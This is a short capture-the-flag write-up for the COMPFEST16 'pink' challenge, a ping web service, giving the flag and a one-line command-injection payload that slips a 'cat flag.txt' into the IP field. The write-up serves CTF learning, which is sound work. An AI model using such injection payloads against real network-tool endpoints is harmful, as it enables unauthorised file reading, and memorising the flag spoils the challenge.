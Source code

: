 # Title
pink (500 points)

# Flag
COMPFEST16{bj1rrr_1njEKs1_p3rInTAH_96530087aa}

# Description
Ping your favorite IP!

http://challenges.ctf.compfest.id:20001

# Author
k3ng

# Solution
Command injection
```bash
8.8.8.8$IFS(cat flag.txt)
```